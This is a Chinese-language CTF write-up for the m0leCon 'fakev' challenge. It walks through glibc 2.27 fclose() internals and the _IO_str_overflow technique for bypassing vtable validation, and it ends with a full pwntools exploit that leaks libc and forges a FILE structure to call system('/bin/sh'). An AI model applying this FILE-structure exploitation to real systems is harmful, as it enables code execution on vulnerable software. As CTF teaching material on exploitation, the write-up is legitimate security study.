




# m0lencon-fakev_&&__`fclose()`函数

### 0x0 前置补偿

这道题主要是学到了`_IO_str_overflow`的利用。[Dhaval Kapil](https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/)

#### `fclose()`

学习一下Glibc2.27下的`fclose()`函数的源码。

这是相关`flag`的定义([glibc](https://code.woboq.org/userspace/glibc/)/[libio](https://code.woboq.org/userspace/glibc/libio/)/[libio.h](https://code.woboq.org/userspace/glibc/libio/libio.h.html))：

```c
/* Magic number and bits for the _flags field.  The magic number is
   mostly vestigial, but preserved for compatibility.  It occupies the
   high 16 bits of _flags; the low 16 bits are actual flag bits.  */
#define _IO_MAGIC         0xFBAD0000 /* Magic number */
#define _IO_MAGIC_MASK    0xFFFF0000
#define _IO_USER_BUF          0x0001 /* Don't deallocate buffer on close. */
#define _IO_UNBUFFERED        0x0002
#define _IO_NO_READS          0x0004 /* Reading not allowed.  */
#define _IO_NO_WRITES         0x0008 /* Writing not allowed.  */
#define _IO_EOF_SEEN          0x0010
#define _IO_ERR_SEEN          0x0020
#define _IO_DELETE_DONT_CLOSE 0x0040 /* Don't call close(_fileno) on close.  */
#define _IO_LINKED            0x0080 /* In the list of all open files.  */
#define _IO_IN_BACKUP         0x0100
#define _IO_LINE_BUF          0x0200
#define _IO_TIED_PUT_GET      0x0400 /* Put and get pointer move in unison.  */
#define _IO_CURRENTLY_PUTTING 0x0800
#define _IO_IS_APPENDING      0x1000
#define _IO_IS_FILEBUF        0x2000
                           /* 0x4000  No longer used, reserved for compat.  */
#define _IO_USER_LOCK         0x8000
```

接下来进入正题：可以看到`fclose()`函数其实是`_IO_new_fclose()`。[glibc](https://code.woboq.org/userspace/glibc/)/[libio](https://code.woboq.org/userspace/glibc/libio/)/[iofclose.c](https://code.woboq.org/userspace/glibc/libio/iofclose.c.html)

```c
int
_IO_new_fclose (FILE *fp)
{
  int status;
  CHECK_FILE(fp, EOF);
#if SHLIB_COMPAT (libc, GLIBC_2_0, GLIBC_2_1)
  /* We desperately try to help programs which are using streams in a
     strange way and mix old and new functions.  Detect old streams
     here.  */
  if (_IO_vtable_offset (fp) != 0)
    return _IO_old_fclose (fp);
#endif
  /* First unlink the stream.  */
  if (fp->_flags & _IO_IS_FILEBUF)
    _IO_un_link ((struct _IO_FILE_plus *) fp);
  _IO_acquire_lock (fp);
  if (fp->_flags & _IO_IS_FILEBUF)
    status = _IO_file_close_it (fp);
  else
    status = fp->_flags & _IO_ERR_SEEN ? -1 : 0;
  _IO_release_lock (fp);
  _IO_FINISH (fp);
  if (fp->_mode > 0)
    {
      /* This stream has a wide orientation.  This means we have to free
         the conversion functions.  */
      struct _IO_codecvt *cc = fp->_codecvt;
      __libc_lock_lock (__gconv_lock);
      __gconv_release_step (cc->__cd_in.__cd.__steps);
      __gconv_release_step (cc->__cd_out.__cd.__steps);
      __libc_lock_unlock (__gconv_lock);
    }
  else
    {
      if (_IO_have_backup (fp))
        _IO_free_backup_area (fp);
    }
  _IO_deallocate_file (fp);
  return status;
}
versioned_symbol (libc, _IO_new_fclose, _IO_fclose, GLIBC_2_1);
strong_alias (_IO_new_fclose, __new_fclose)
versioned_symbol (libc, __new_fclose, fclose, GLIBC_2_1);
```

首先是`CHAECK_FILE()`:它什么都不干，不管他。

```c
# define CHECK_FILE(FILE, RET) do { } while (0)
```

然后是`_IO_un_link()`函数，进不进这个函数没什么影响，至少这道题是这样。（就是一个从`_IO_list_all`把这个文件取出来的函数。

[glibc](https://code.woboq.org/userspace/glibc/)/[libio](https://code.woboq.org/userspace/glibc/libio/)/[genops.c](https://code.woboq.org/userspace/glibc/libio/genops.c.html)

```c
void
_IO_un_link (struct _IO_FILE_plus *fp)
{
  if (fp->file._flags & _IO_LINKED)
    {
      FILE **f;
#ifdef _IO_MTSAFE_IO
      _IO_cleanup_region_start_noarg (flush_cleanup);
      _IO_lock_lock (list_all_lock);
      run_fp = (FILE *) fp;
      _IO_flockfile ((FILE *) fp);
#endif
      if (_IO_list_all == NULL)
        ;
      else if (fp == _IO_list_all)
        _IO_list_all = (struct _IO_FILE_plus *) _IO_list_all->file._chain;
      else
        for (f = &_IO_list_all->file._chain; *f; f = &(*f)->_chain)
          if (*f == (FILE *) fp)
            {
              *f = fp->file._chain;
              break;
            }
      fp->file._flags &= ~_IO_LINKED;
#ifdef _IO_MTSAFE_IO
      _IO_funlockfile ((FILE *) fp);
      run_fp = NULL;
      _IO_lock_unlock (list_all_lock);
      _IO_cleanup_region_end (0);
#endif
    }
}
libc_hidden_def (_IO_un_link)
```

这里暂时不管它了。不设置`flag`就不会进去。

然后是`_IO_FINISH()`函数：有一个检测函数需要绕过。然后就可以

```c
pwndbg> p _IO_file_jumps
$5 = {
  __dummy = 0,
  __dummy2 = 0,
  __finish = 0x7ffff7a70330 <_IO_new_file_finish>,
  __overflow = 0x7ffff7a71300 <_IO_new_file_overflow>,
  __underflow = 0x7ffff7a71020 <_IO_new_file_underflow>,
  __uflow = 0x7ffff7a723c0 <__GI__IO_default_uflow>,
  __pbackfail = 0x7ffff7a73c50 <__GI__IO_default_pbackfail>,
  __xsputn = 0x7ffff7a6f930 <_IO_new_file_xsputn>,
  __xsgetn = 0x7ffff7a6f590 <__GI__IO_file_xsgetn>,
  __seekoff = 0x7ffff7a6eb90 <_IO_new_file_seekoff>,
  __seekpos = 0x7ffff7a72990 <_IO_default_seekpos>,
  __setbuf = 0x7ffff7a6e850 <_IO_new_file_setbuf>,
  __sync = 0x7ffff7a6e6d0 <_IO_new_file_sync>,
  __doallocate = 0x7ffff7a62100 <__GI__IO_file_doallocate>,
  __read = 0x7ffff7a6f910 <__GI__IO_file_read>,
  __write = 0x7ffff7a6f190 <_IO_new_file_write>,
  __seek = 0x7ffff7a6e910 <__GI__IO_file_seek>,
  __close = 0x7ffff7a6e840 <__GI__IO_file_close>,
  __stat = 0x7ffff7a6f180 <__GI__IO_file_stat>,
  __showmanyc = 0x7ffff7a73dd0 <_IO_default_showmanyc>,
  __imbue = 0x7ffff7a73de0 <_IO_default_imbue>
}

#define _IO_FINISH(FP) JUMP1 (__finish, FP, 0)

#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)

# define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable (_IO_JUMPS_FILE_plus (THIS)))

/* Check if unknown vtable pointers are permitted; otherwise,
   terminate the process.  */
void _IO_vtable_check (void) attribute_hidden;
/* Perform vtable pointer validation.  If validation fails, terminate
   the process.  */
static inline const struct _IO_jump_t *
IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  /* Fast path: The vtable pointer is within the __libc_IO_vtables
     section.  */
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  uintptr_t ptr = (uintptr_t) vtable;
  uintptr_t offset = ptr - (uintptr_t) __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length))
    /* The vtable pointer is not in the expected section.  Use the
       slow path, which will terminate the process if necessary.  */
    _IO_vtable_check ();
  return vtable;
}
```

只要绕过`IO_validate_vtable`检查，即可劫持`vtable`实用我们想用的函数。

#### `_IO_str_overflow` [Dhaval Kapil](https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/)

这里就到了人家的正文了（

我们是为了绕过`IO_validate_vtable`的检查，还要拿到`shell`，所以有这样一个函数`IO_str_overflow()`。这个函数在`_IO_str_jumps`中，这个函数的位置恰好可以绕过`if (__glibc_unlikely (offset >= section_length))`检查。然后就可以来到`_IO_FINISH`来调用`IO_str_overflow()`。

```c
/* Source: https://code.woboq.org/userspace/glibc/libio/strops.c.html#_IO_str_overflow
*/

_IO_str_overflow (_IO_FILE *fp, int c)
{
  int flush_only = c == EOF;   // ==> flush_only = 0;
  _IO_size_t pos;
  if (fp->_flags & _IO_NO_WRITES)
      return flush_only ? 0 : EOF;
  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
    {
      fp->_flags |= _IO_CURRENTLY_PUTTING;
      fp->_IO_write_ptr = fp->_IO_read_ptr;
      fp->_IO_read_ptr = fp->_IO_read_end;
    }
  pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
    {
      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
        return EOF;
      else
    {
      char *new_buf;
      char *old_buf = fp->_IO_buf_base;
      size_t old_blen = _IO_blen (fp);
      _IO_size_t new_size = 2 * old_blen + 100;
      if (new_size < old_blen)
        return EOF;
      new_buf
        = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);

        /* ^ Getting RIP control !*/
```

这里的`(*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);`可以考虑利用一下。

查看`_IO_strfile`结构体，发现`_s._allocate_buffer`就在我们伪造`vtable`的下一个位置。这个位置我们可以利用啊！！把它写成`system@plt`，接下来需要考虑`RDI`了，需要把它写成`/bin/sh\x00`。

```c
struct _IO_str_fields
{
  /* These members are preserved for ABI compatibility.  The glibc
     implementation always calls malloc/free for user buffers if
     _IO_USER_BUF or _IO_FLAGS2_USER_WBUF are not set.  */
  _IO_alloc_type _allocate_buffer_unused;
  _IO_free_type _free_buffer_unused;
};
/* This is needed for the Irix6 N32 ABI, which has a 64 bit off_t type,
   but a 32 bit pointer type.  In this case, we get 4 bytes of padding
   after the vtable pointer.  Putting them in a structure together solves
   this problem.  */
struct _IO_streambuf
{
  FILE _f;
  const struct _IO_jump_t *vtable;
};
typedef struct _IO_strfile_
{
  struct _IO_streambuf _sbf;
  struct _IO_str_fields _s;
} _IO_strfile;
```

从`_IO_str_overflow()`函数开头开始看：

在调用`_IO_str_overflow(_IO_FILE *fp, int c)`的时候，`c == 0`，（见上`_IO_FINISH`）。

然后由于我们没有设置`flag`，所以直接到了这里：

```c
pos = fp->_IO_write_ptr - fp->_IO_write_base;
if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
  else
    {
      char *new_buf;
      char *old_buf = fp->_IO_buf_base;
      size_t old_blen = _IO_blen (fp);
      _IO_size_t new_size = 2 * old_blen + 100;
      if (new_size < old_blen)
        return EOF;
      new_buf
        = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
```

我们首先需要`pos < (_IO_size_t) (_IO_blen (fp) + flush_only)`，

即`pos < (_IO_size_t) (_IO_blen (fp)`，

```c
#define _IO_blen(fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)
```

我们先不管这俩参数怎么设置才能进到`else`里，因为下面也用到了`_IO_blen`，所以我们需要设置`new_size = &str_bin_sh(in libc)`所以`old_blen`就是`((fp)->_IO_buf_end - (fp)->_IO_buf_base)`必须是`(&str_bin_sh - 100)/2`。

```c
size_t old_blen = _IO_blen (fp);
_IO_size_t new_size = 2 * old_blen + 100;
```

所以我们可以设置`_IO_buf_end = (&str_bin_sh - 100)/2`，而`_IO_buf_base = 0`，这样进入了`else`，也设置了`RDI`为`/bin/sh\x00`。

也就成功调用了`system("/bin/sh\x00")`。

所以我们需要在`fake_file`里设置的参数如下：

> Our next step is to point `vtable` to some address, such that, `fclose` will actually call `_IO_str_overflow`. I used gdb to find the relative offset of a pointer to `_IO_str_overflow` from `_IO_file_jumps`, which apparently is `0xd8` for the provided libc. Now, if I point the `vtable` to `0x10` bytes before it, `fclose` will call `_IO_str_overflow` (again from gdb).

> Note that we also have to set `fp->_lock` to an address pointing to `NULL` to prevent `fclose` waiting on someone else for releasing the lock. 

```c
rip = libc_base + libc.symbols['system']
rdi = libc_base + next(libc.search("/bin/sh"))

io_str_overflow_ptr_addr = libc_base + libc.symbols['_IO_file_jumps'] + 0xd8
# Calculate the vtable by subtracting appropriate offset
fake_vtable_addr = io_str_overflow_ptr_addr - 2*8

# Craft file struct
file_struct = pack_file(_IO_buf_base = 0,
                        _IO_buf_end = (rdi-100)/2,
                        _IO_write_ptr = (rdi-100)/2,
                        _IO_write_base = 0,
                        _lock = bin.symbols['fake_file'] + 0x80)
# vtable pointer
file_struct += p64(fake_vtable_addr)
# (*((_IO_strfile *) fp)->_s._allocate_buffer)
file_struct += p64(rip)
file_struct = file_struct.ljust(0x100, "\x00")
```

详细利用方法可以参考[FILE Structure Exploitation ('vtable' check bypass)-Dhaval Kapil](https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/)

### 0x1 分析

OK,梳理题目。

看一下安全机制：

```shell
[*] '/home/mech0n/pwn/m0lecon/fakev/fakev'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开了CANARY，但是地址固定。

然后看函数吧

`main()`给了大致的功能，打开文件，读文件，关闭文件，~~写文件~~。

```c
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 savedregs; // [rsp+10h] [rbp+0h]

  initialize();
  while ( 1 )
  {
    print_menu();
    get_int();
    switch ( (unsigned int)&savedregs )
    {
      case 1u:
        open_file();
        break;
      case 2u:
        read_content(*(__int64 *)&argc);
        break;
      case 3u:
        write_content();                        // nothing!!!!!!!!!
        return;
      case 4u:
        close_file();
        break;
      case 5u:
        exit(1);
        return;
      default:
        continue;
    }
  }
}
```

`get_int()`函数有点东西：

```c
int get_int()
{
  char s[8]; // [rsp+0h] [rbp-110h]
  __int64 v2; // [rsp+8h] [rbp-108h]
  __int64 v3; // [rsp+10h] [rbp-100h]
  __int64 v4; // [rsp+18h] [rbp-F8h]
  __int64 v5; // [rsp+20h] [rbp-F0h]
  __int64 v6; // [rsp+28h] [rbp-E8h]
  __int64 v7; // [rsp+30h] [rbp-E0h]
  __int64 v8; // [rsp+38h] [rbp-D8h]
  __int64 v9; // [rsp+40h] [rbp-D0h]
  __int64 v10; // [rsp+48h] [rbp-C8h]
  __int64 v11; // [rsp+50h] [rbp-C0h]
  __int64 v12; // [rsp+58h] [rbp-B8h]
  __int64 v13; // [rsp+60h] [rbp-B0h]
  __int64 v14; // [rsp+68h] [rbp-A8h]
  __int64 v15; // [rsp+70h] [rbp-A0h]
  __int64 v16; // [rsp+78h] [rbp-98h]
  __int64 v17; // [rsp+80h] [rbp-90h]
  __int64 v18; // [rsp+88h] [rbp-88h]
  __int64 v19; // [rsp+90h] [rbp-80h]
  __int64 v20; // [rsp+98h] [rbp-78h]
  __int64 v21; // [rsp+A0h] [rbp-70h]
  __int64 v22; // [rsp+A8h] [rbp-68h]
  __int64 v23; // [rsp+B0h] [rbp-60h]
  __int64 v24; // [rsp+B8h] [rbp-58h]
  __int64 v25; // [rsp+C0h] [rbp-50h]
  __int64 v26; // [rsp+C8h] [rbp-48h]
  __int64 v27; // [rsp+D0h] [rbp-40h]
  __int64 v28; // [rsp+D8h] [rbp-38h]
  __int64 v29; // [rsp+E0h] [rbp-30h]
  __int64 v30; // [rsp+E8h] [rbp-28h]
  __int64 v31; // [rsp+F0h] [rbp-20h]
  __int64 v32; // [rsp+F8h] [rbp-18h]
  unsigned __int64 v33; // [rsp+108h] [rbp-8h]

  v33 = __readfsqword(0x28u);
  fgets(s, 0x100, stdin);
  *(_QWORD *)choice_string = *(_QWORD *)s;
  qword_602108 = v2;
  qword_602110 = v3;
  qword_602118 = v4;
  qword_602120 = v5;
  qword_602128 = v6;
  qword_602130 = v7;
  qword_602138 = v8;
  qword_602140 = v9;
  qword_602148 = v10;
  qword_602150 = v11;
  qword_602158 = v12;
  qword_602160 = v13;
  qword_602168 = v14;
  qword_602170 = v15;
  qword_602178 = v16;
  qword_602180 = v17;
  qword_602188 = v18;
  qword_602190 = v19;
  qword_602198 = v20;
  qword_6021A0 = v21;
  qword_6021A8 = v22;
  qword_6021B0 = v23;
  qword_6021B8 = v24;
  qword_6021C0 = v25;
  qword_6021C8 = v26;
  qword_6021D0 = v27;
  qword_6021D8 = v28;
  qword_6021E0 = v29;
  qword_6021E8 = v30;
  qword_6021F0 = v31;
  qword_6021F8 = v32;
  return atoi(choice_string);
}
```

会写入`s`一共`0x100`的字节，~~你就输入一个int，要这么多字节干嘛！~~，然后存到`.bss`里。

然后看看`open_file()`

```c
unsigned __int64 open_file()
{
  __int64 file_idx; // [rsp+0h] [rbp-20h]
  int idx_; // [rsp+4h] [rbp-1Ch]
  FILE *stream; // [rsp+8h] [rbp-18h]
  char s; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("Which file you want to open? (Specify integer in range 1-8)");
  LODWORD(file_idx) = get_index();
  sprintf(&s, "%d.txt", (unsigned int)file_idx, file_idx);
  stream = fopen(&s, "r");
  if ( !stream )
  {
    perror("Error while opening file");
    exit(1);
  }
  idx_ = add((unsigned __int64)stream);
  contents[idx_] = malloc(0xF0uLL);
  if ( !contents[idx_] )
  {
    perror("Couldn't alloc");
    exit(1);
  }
  fread(contents[idx_], 1uLL, 0xF0uLL, stream);
  return __readfsqword(0x28u) ^ v5;
}
```

会让咱们选择一个文件打开，然后进入`add()`，这个函数返回一个`idx`，然后在`.bss`的`content[]`里存下一个`chunk`,

```c
signed __int64 __fastcall add(unsigned __int64 stream)
{
  unsigned __int64 FILE; // [rsp+8h] [rbp-28h]
  unsigned int count; // [rsp+14h] [rbp-1Ch]
  __int64 PRE; // [rsp+18h] [rbp-18h]
  void *NEXT; // [rsp+20h] [rbp-10h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]
  __int64 savedregs; // [rsp+30h] [rbp+0h]

  FILE = stream;
  v6 = __readfsqword(0x28u);
  count = 0;
  if ( !HEAD )
  {
    HEAD = (__int64)malloc(0x10uLL);
    if ( !HEAD )
    {
      perror("Couldn't alloc");
      exit(1);
    }
    *(_OWORD *)HEAD = FILE;
    return count;
  }
  PRE = HEAD;
  count = 1;
  while ( *(_QWORD *)(PRE + 8) )
  {
    PRE = *(_QWORD *)(PRE + 8);                 // |FILE|NEXT|
    ++count;
  }
  if ( count != 8 )
  {
    if ( (signed int)count > 8 )
    {
      puts("This is too much files opened!");
      exit(1);
    }
    NEXT = malloc(0x10uLL);
    if ( !NEXT )
    {
      perror("Couldn't alloc");
      exit(1);
    }
    *(_QWORD *)(PRE + 8) = NEXT;
    **(_QWORD **)(PRE + 8) = FILE;
    *(_QWORD *)(*(_QWORD *)(PRE + 8) + 8LL) = 0LL;
    return count;
  }
  puts("This is the last file that you could open man!");
  NEXT = malloc(0x10uLL);
  if ( !NEXT )
  {
    perror("Couldn't alloc");
    exit(1);
  }
  *(_QWORD *)(PRE + 8) = &savedregs - 7;        // rbp - 38h
  **(_QWORD **)(PRE + 8) = FILE;
  *(_QWORD *)(*(_QWORD *)(PRE + 8) + 8LL) = 0LL;
  return 8LL;
}
```

这个函数主要是做一个文件的链，这个链如果满了，也就是第`9`个的时候，这个链再延伸会到`stack`上。

可以根据栈的迁移来推断最后一个节点的位置。从而在这里伪造一个`FILE`的指针。但是怎么修改这里呢。

我们记得之前那个`get_int()`很奇怪，在这里我们足以覆盖到这最后一个节点。在`get_int()`函数我们可以把伪造的`FILE`存在`.bss`里，这样可以方便我们构造。构造的`payload`，也就注意之前分析的那几部分就好了。

构造完之后通过`get_int()`存到`stack`上，然后调用`close_file()`的`fclose()`即可。


那么还有一个问题。就是怎么得到`system`的地址。也就是`leak libc`。

填满`tcache bin`然后就通过`close_file`会有`chunk`被丢进`Unsorted bin`，然后就通过`read_file`可以拿到`libc`。

#### 关键步骤调试

在覆盖完`stack`之后，断点在`fclose()`



可以看到文件链表的最后一个节点指向我们构造fake file的位置。

我们的构造的`file`:



可以看到`vtable`指向了`_IO_str_jumps`



然后`_FINISH`的位置：

`

完成啦！

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

def debug(p, cmd):
    gdb.attach(p, cmd)
    pause()

def open_file(p, idx, fake_idx=None):
    p.sendlineafter(':', '1')
    if fake_idx is not None:
        p.sendafter(':', fake_idx)
    else:
        p.sendlineafter(':', str(idx))


def read_content(p, idx):
    p.sendlineafter(':', '2')
    p.sendlineafter(':', str(idx))


def close_file(p):
    p.sendlineafter(':', '4')


p = process('./fakev')
libc = ELF('./libc.so.6')


for idx in range(1, 9):
    open_file(p, idx)
for idx in range(8):
    close_file(p)

read_content(p, 1)
libc_arena = u64(p.recvn(17)[9:])
libc_base = libc_arena - 0x3ebca0

log.success('libc_arena : ' + hex(libc_arena))
log.success('libc_base  : ' + hex(libc_base))
debug(p, 'b *0x401017\n')

for idx in range(1, 9):
    open_file(p, idx)
open_file(p, 1)

vtable = libc_base + 0x3e82a0
rdi = libc_base + next(libc.search('/bin/sh'))
system = libc_base + libc.symbols['system']

choice_string = 0x602100

target = choice_string + 0x8

chunk1 = [
        p64(0x0),
        p64(0),  # _IO_read_ptr
        p64(0),  # _IO_read_end
        p64(0),  # _IO_read_base
        p64(0),  # _IO_write_base
        p64((rdi-100)/2),  # _IO_write_ptr            
        p64(0),  # _IO_write_end                      
        p64(0),  # _IO_buf_base                      
        p64((rdi-100)/2),  # _IO_buf_end
        p64(0)*4,  # _IO_save_base ~ #_markers
        p64(0),  # chain
        p64(4),  # fileno
        p64(0),  # _flags2
        p64(0),  # _old_offset
        p64(0x602110),
        p64(0),
        p64(0)
    ]
chunk2 = [
        p64(0)*5,
        p64(libc_base + libc.symbols['_IO_file_jumps'] + 0xd8 - 0x10),
        p64(system),  # _s._allocate_buffer
    ]

chunk1 = ''.join(chunk1)
chunk2 = ''.join(chunk2)

buf = '4'.ljust(8, '\x00')
buf += chunk1
buf += p64(target)
buf += p64(0)
buf += chunk2
p.sendline(buf)

p.interactive()
```

### 0x3 Reference

[_IO_str_overflowを使ったvtable改竄検知の回避手法](https://ptr-yudai.hatenablog.com/entry/2019/02/12/000202)

[FILE Structure Exploitation ('vtable' check bypass)](https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/)

[EXP1](https://github.com/merrychap/ctf-writeups/tree/master/2020/m0leCon/fakev)

[EXP2](https://github.com/merrychap/ctf-writeups/blob/master/2020/m0leCon/fakev/fakev.py)

